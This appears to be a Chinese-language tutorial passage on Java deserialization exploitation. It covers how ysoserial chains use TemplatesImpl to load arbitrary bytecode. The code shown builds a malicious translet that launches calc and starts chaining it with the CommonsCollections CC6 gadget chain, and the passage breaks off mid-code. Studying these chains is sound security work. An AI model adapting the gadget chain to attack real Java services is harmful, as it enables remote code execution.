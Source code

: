 #### TemplatesImp引入

可以发现 ysoserial 中许多链都有`TemplatesImp`的身影：
![](https://image.silente.top/img/s202.png)

原因主要在于其内部类`TransletClassLoader`有一个作用域为`default`的`defineClass`方法，并且之前的调用都是`public`，能够达成利用目的，从而执行任意字节码。

先在本地测试写一个利用类

```java
public class MyTemplatesImpl extends AbstractTranslet {
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {
    }

    public void transform(DOM document, DTMAxisIterator iterator,
                          SerializationHandler handler) throws TransletException {
    }
    public MyTemplatesImpl() throws Exception {
        super();
        Runtime.getRuntime().exec("calc");
        System.out.println("SilentE!");
    }
}
```

生成 b64 后测试：

```java
public static void main(String[] args) throws Exception {
    byte[] code = Base64.decode("{b64Code}");
    TemplatesImpl obj = new TemplatesImpl();
    setFieldValue(obj, "_bytecodes", new byte[][] {code});
    setFieldValue(obj, "_name", "MylatesImpl");
    setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
    obj.newTransformer();
}
```

![](https://image.silente.top/img/s203.png)

如何加入反序列化利用呢？可以看见最后是触发了`newTransformer`方法，因此考虑跟`transformers`结合，这里就直接接上 CC6 的链子：

```java
public static void main(String[] args) throws Exception {
    byte[] code = Base64.decode("{b64Code}");
    TemplatesImpl obj = new TemplatesImpl();
    setFieldValue(obj, "_bytecodes", new byte[][] {code});
    setFieldValue(obj, "_name", "MylatesImpl");
    setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());

    Transformer[] transformers = new Transformer[] {
            new ConstantTransformer(obj),
            new InvokerTransformer("newTransformer", null, null)
    };
    Transformer transformerChain = new ChainedTransformer(transformers);
    Map<Object, Object> innerMap = new HashMap<>();
    Map outerMap = LazyMap.decorate(innerMap, transformerChain);

    //TiedMapEntry & HashMap 构造
    TiedMapEntry tiedMapEntry = new TiedMapEntry(outerMap, "value");
    HashMap hashMap = new HashMap();
    hashMap.put(tiedMapEntry, "foo");
    outerMap.remove("value");

    Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
    f.setAccessible(true);
```